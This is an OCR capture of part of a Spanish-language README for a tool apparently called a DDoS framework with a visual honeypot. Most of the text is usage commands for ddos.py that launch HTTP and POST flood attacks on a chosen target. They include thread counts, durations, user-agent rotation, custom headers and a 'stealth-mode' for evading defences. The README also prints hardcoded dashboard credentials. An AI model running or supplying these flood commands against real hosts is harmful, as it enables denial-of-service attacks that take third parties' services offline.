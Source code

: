### 🚀 **Verificación de Instalación**
```bash
# Ejecutar tests automáticos
python3 ddos.py --self-test

# Iniciar dashboard de prueba
python3 visual_honeypot.py --test-mode

# Verificar todas las dependencias
python3 -m pip check
```

---

## 🎯 **Guía de Uso Completa del Framework de Alvaro Manzo**

### 🚀 **1. Inicio Rápido - Modo Interactivo**
```bash
# Ejecutar el framework principal con menú interactivo
python3 ddos.py

# Seleccionar objetivo y tipo de ataque desde el menú visual
# El sistema guiará paso a paso con validaciones automáticas
```

### 🍯 **2. Iniciar Honeypot Visual con Dashboard**
```bash
# Iniciar el honeypot visual profesional
python3 visual_honeypot.py

# Acceder al dashboard web en: http://localhost:8080
# Credenciales: Usuario: Alvaro | Contraseña: falcon40
# Dashboard con gráficas en tiempo real y métricas avanzadas
```

### ⚡ **3. Modo Comandos Avanzados**

#### 🌊 **HTTP Flood Personalizado**
```bash
# Ataque HTTP básico con configuración automática
python3 ddos.py --target example.com --method http --threads 100 --duration 60

# HTTP Flood avanzado con evasión de Alvaro Manzo
python3 ddos.py --target https://target.com --method http \
    --threads 250 --duration 120 --user-agents-rotation \
    --custom-headers --rate-limiting --stealth-mode
```

#### 💥 **POST Flood con Payloads Personalizados**
```bash
# POST Flood con datos aleatorios
python3 ddos.py --target api.example.com --method post \
    --threads 150 --payload-size 10KB --compression gzip

# POST con payload personalizado por Alvaro Manzo
python3 ddos.py --target api.target.com --method post \
    --custom-payload '{"data": "test", "size": 1000}' \
    --content-type application/json --encoding utf-8
```
